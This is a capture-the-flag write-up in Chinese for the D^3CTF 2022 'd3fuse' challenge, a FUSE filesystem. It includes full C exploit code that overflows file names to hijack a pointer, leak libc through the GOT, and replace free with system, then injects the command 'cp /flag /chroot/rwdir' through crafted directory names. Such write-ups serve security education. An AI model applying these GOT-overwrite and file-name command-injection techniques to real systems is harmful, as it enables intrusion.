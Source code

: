 # PKUCC D^3CTF 2022 Writeup

## [PWN] d3fuse

逆向，如题目名所示，是一个libfuse实现的用户态文件系统，简单看一下发现没有检查文件名长度，如果文件名长度超过32个字节就会溢出覆盖后面的文件长度和指向文件内容的指针

因为没开PIE，所以直接把指针覆盖到函数free的got表地址，读取一下得到libc中free函数的地址，再把它覆盖成system，这样程序仍然可以正确运行，不过只要我们构造一下cp /flag /chroot/rwdir就可以得到flag，这里因为文件路径会先strdup再free，利用文件名就可以做到

代码：
```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <sys/stat.h>
#include <unistd.h>
#include <stdint.h>
#include <stdio.h>

#define PRE "mnt/"
#define A1 "a"
#define A2 A1 A1
#define A4 A2 A2
#define A8 A4 A4
#define A16 A8 A8
#define A32 A16 A16
#define INF "\x7f\x7f\x7f\x7f"

#define PREFIX PRE A32 INF INF

#define RW(rw, pos, off, sz, data) ({                          \
		creat(PREFIX pos, 0644);                       \
		int fd = open(PRE A32, O_RDWR | O_DIRECT);     \
		p##rw(fd, data, sz, off);                      \
		close(fd);                                     \
	})

#define RD(pos, off, sz, data) RW(read, pos, off, sz, data)
#define WR(pos, off, sz, data) RW(write, pos, off, sz, data)

#define RD8(pos, off) ({                      \
		char __buf[8];                \
		RD(pos, off, 8, __buf);       \
		*(uint64_t *) __buf;          \
	})

int main(void)
{
	uintptr_t free = RD8("\x18\x50\x40", 0);
	uintptr_t system = free - 0x48440;
	printf("free: %p\nsystem: %p\n", (void *) free, (void *) system);

	WR("\x18\x50\x40", 0, 8, (char *) &system);

	mkdir(PRE "; cp ", 0755);
	mkdir(PRE "; cp /flag ", 0755);
	mkdir(PRE "; cp /flag /chroot", 0755);
	creat(PRE "; cp /flag /chroot/rwdir", 0644);

	return 0;
}
```
